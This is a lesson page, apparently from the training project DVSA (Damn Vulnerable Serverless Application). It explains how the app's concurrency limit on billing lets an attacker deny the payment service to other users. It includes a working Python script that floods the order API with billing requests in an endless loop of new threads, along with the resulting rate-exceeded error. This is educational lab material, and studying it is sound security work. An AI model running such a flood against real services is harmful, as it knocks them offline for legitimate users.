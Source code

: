 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STIPE) the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):
```
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receice:
```
{
  "message": "Rate Exceeded.",
  "code": "TooManyRequestsException",
  "time": "2018-12-22T23:25:29.935Z",
  "requestId": "deec6aa7-0640-11e9-9e02-a529a60fefd1",
  "statusCode": 429,
  "retryable": false,
  "retryDelay": 17.57835303415325
}
```
- - - 
[<- Lesson #5](../LESSONS/LESSON_05.md)

[Lesson #7 ->](../LESSONS/LESSON_07.md)

